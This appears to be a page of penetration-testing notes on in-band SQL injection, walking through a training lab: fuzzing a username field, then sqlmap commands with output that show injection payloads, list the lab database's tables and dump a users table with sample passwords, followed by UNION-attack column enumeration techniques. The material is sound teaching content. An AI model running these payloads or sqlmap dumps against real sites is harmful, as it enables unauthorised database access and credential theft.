

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# In Band


In-Band SQLi occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.


## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](../../../../tools/web/sqlmap.md).




```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```




```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```



```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```




```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```




## UNION attack


A SQLi Union attack occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.


For a successful `UNION` attack two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [How many columns](https://x7331.gitbook.io/boxes/services/sql/mysql-3306#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [Which columns are suitable](https://x7331.gitbook.io/boxes/services/sql/mysql-3306#data-types) to hold the results from the injected query?

### Number of Columns <a href="#number-of-columns" id="number-of-columns"></a>

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>
